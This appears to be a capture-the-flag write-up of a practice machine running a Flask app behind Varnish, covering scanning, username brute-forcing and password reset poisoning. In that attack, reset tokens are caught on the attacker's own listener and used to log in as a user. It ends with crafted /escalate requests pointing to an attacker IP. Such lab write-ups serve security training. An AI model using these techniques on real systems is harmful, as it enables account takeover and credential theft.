


## Enum
```bash
cat scans/nmap.initial
# Nmap 7.93 scan initiated Wed Dec 21 23:26:49 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.10.11.188
Nmap scan report for 10.10.11.188
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-server-header: Varnish
|_http-title: 503 Backend fetch failed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 21 23:28:33 2022 -- 1 IP address (1 host up) scanned in 104.36 seconds
```

  
  

So this is a flask app cached with varnish
```
python 3.8.10
flask/werkzeug 2.1.2
varnish 6.2
```

```bash
dirsearch -r -u http://10.10.11.188         130 ⨯

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/blnkn/.dirsearch/reports/10.10.11.188/_23-01-28_22-35-44.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-01-28_22-35-44.log

Target: http://10.10.11.188/

[22:35:44] Starting:
[22:36:04] 302 -  189B  - /home  ->  /
[22:36:08] 200 -    5KB - /login
[22:36:11] 200 -    5KB - /forgot
[22:36:16] 200 -    5KB - /reset

Task Completed
```

## Forgot password feature

Login page sends credentials as a urlencoded POST to `/login` 
Doesn't seem to leak if a user exists or not as the message is always `Invalid Credentials`  
  
Hitting the forgot password button does a get to `/forgot`  
This prompts for a username that is sent to as a GET param to `/forgot`  
Admin password can't be reset  
Trying to reset a random username gets us a `Invalid users` response  
So we might have a way to enumerate valid users there  
  
Attempting to bruteforce the forgot page to get a valid username:  
Looks like I got blacklisted or something  
```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -u 'http://10.10.11.188/forgot?username=FUZZ' -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.188/forgot?username=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

abree                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 92ms]
abraham                 [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 95ms]
abram                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 98ms]
abdullah                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 98ms]
ace                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 105ms]
abdul                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 105ms]
aby                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 119ms]
abriel                  [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 121ms]
abrianna                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 122ms]
chiarra                 [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 67ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Now I get an error from varnish  
  

Trying to pivot through a previously owned box to see if my ip is blacklisted: 
```bash
ssh -vfNCD 8000 angoose@stocker.htb
```
```
curl -x socks://127.0.0.1:8000 'http://10.10.11.188/login'
<!DOCTYPE html>
<html>
  <head>
    <title>503 Backend fetch failed</title>
  </head>
  <body>
    <h1>Error 503 Backend fetch failed</h1>
    <p>Backend fetch failed</p>
    <h3>Guru Meditation:</h3>
    <p>XID: 3244052</p>
    <hr>
    <p>Varnish cache server</p>
  </body>
</html>
```

Yea, no...  looks like I might have borked it, time to reset

After a reset it now shows this as a comment in the source of `/login`:  
```html
<!-- Q1 release fix by robert-dev-10036 -->
```

That was showing like that before... nevermind:
```html
<!-- Q1 release fix by-->
```

Trying to login with that an a bogus password in `/login` gives us the same `Invalid Credentials` as before  
But in the `/forgot` page we get a new error:  
   

So this user is valid and a `Password reset link has been sent to user inbox`, can we steal that?  
Trying to do some password reset poisoning as described in this [portswigger post](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning).      

   

And if we're listening locally we can catch that token
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=DJ0eyqWHi%2FuAdX0EaRDquVwbmTuDE675rh1BkyoB00TFldCO%2BGfJa8m4kvVVdF62whm9tLaVrYX99a1CiGmCeA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=A8TniCi1v3vIg0cfzWe8tyO85JVHbtAhvCSwu0veBSGFXH95AcrivMcH34vA6%2BPw1SyBycGoNL0zgMnJjp4ihA%3D%3D HTTP/1.1" 404 -
```

Of course this was meant to be sent from the server to the server and we know from our earlier enum that the `/reset` path exists, so lets try to hit it with the token
```
http://10.10.11.188/reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D
```
And we get a `success` error now:  
  

So we should now be able to login, but this isn't working because the site is borked again?  
  

Resetting the box and trying the whole process once more.  
Finally got in

So now we got a session cookie: 
```bash
curl -I -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/home'
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6540
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 229455
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
```
```bash
curl -I 'http://10.10.11.188/home'
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
X-Varnish: 229458
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```

Let's have dirsearch running in the background with that cookie set

So we're logged in as robert   
We have access to `/tickets` wich shows existing tickets  
And `/escalate` which lets us escalate existing tickets to the admin with a link and a reason field   
This is sent as a POST that looks like this:  

request
```
POST /escalate HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 155
Origin: http://10.10.11.188
Connection: close
Referer: http://10.10.11.188/escalate
Cookie: __hstc=37486847.8e5c3224c1cd5c149271923b09aae509.1674944197616.1674944197616.1674944197616.1; hubspotutk=8e5c3224c1cd5c149271923b09aae509; __hssrc=1; __hssc=37486847.46.1674944197616; session=e619bd1a-4f08-4411-9774-0e4267e7504d

to=Admin&link=http://10.10.14.53:8000/hello&reason=http://10.10.14.53:8000/hello&issue=Getting error while accessing search feature in enterprise platform.
```
response
```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:31:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 62
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 3213363
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: close

This request can't be reviewed since the issue link is flagged
```

  

Trying a few things, it looks like:
- external ip or domain names are beeing flagged
- doesn't need to start with http://
- if it starts with http:// it needs to be the local ip and it can't have a port spec

The directory search didn't really find anything more than what we found manually
```bash
dirsearch --cookie='session=e619bd1a-4f08-4411-9774-0e4267e7504d' -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -r -u http://10.10.11.188                                                                                           

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 56158

Output File: /home/blnkn/.dirsearch/reports/10.10.11.188/_23-01-28_23-58-01.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-01-28_23-58-01.log

Target: http://10.10.11.188/

[23:58:01] Starting:
[23:58:02] 200 -    5KB - /login
[23:58:02] 200 -    6KB - /home
[23:58:06] 200 -    7KB - /tickets
[23:58:26] 200 -    5KB - /reset
[00:02:01] 200 -    9KB - /escalate

Task Completed
```

Starting sqlmap in the backgroud    

Looking at the source, we learn about the address of the escalated tab:
```
<nav class="navbar">
    <a href="/home">home</a>
    <a href="/tickets">tickets</a>
    <a href="/escalate">escalate</a>
    <a href="/admin_tickets" class="disabled">tickets(escalated)</a>
```


```bash
curl -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/admin_tickets'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/home?err=ACCESS_DENIED">/home?err=ACCESS_DENIED</a>. If not, click the link.
```

